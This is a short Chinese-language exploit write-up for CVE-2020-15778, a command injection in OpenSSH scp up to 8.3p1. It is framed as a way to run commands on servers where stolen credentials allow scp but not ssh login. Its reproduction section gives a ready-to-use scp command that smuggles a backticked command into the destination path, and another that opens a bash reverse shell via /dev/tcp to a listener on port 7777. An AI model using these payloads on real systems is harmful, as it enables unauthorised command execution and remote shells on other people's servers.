 （CVE-2020-15778）OpenSSH 命令注入漏洞
======================================

一、漏洞简介
------------

**实际环境中的利用方案以及场景：**对于用户来说，ssh被阻止，但authorized\_keys文件中的命令选项允许使用scp的情况。您可以绕过此限制并在远程服务器上执行命令。也就是说，实际中通过各种手段获取到了ssh的用户密码，但是不允许ssh连接，或者ip等各种限制，可以尝试此漏洞进行利用。

二、漏洞影响
------------

OpenSSH \<=8.3p1

三、复现过程
------------

### 命令执行

    scp 1.txt root@ip:'`touch /root/test2.txt`/root/12111.txt'

![11.png](./.resource/(CVE-2020-15778)OpenSSH命令注入漏洞/media/rId25.png)

### 反弹shell

    scp test.txt test@192.168.136.133:'`bash -i >& /dev/tcp/192.168.136.129/7777 0>&1`/tmp/test3.txt'

![10.png](./.resource/(CVE-2020-15778)OpenSSH命令注入漏洞/media/rId27.png)
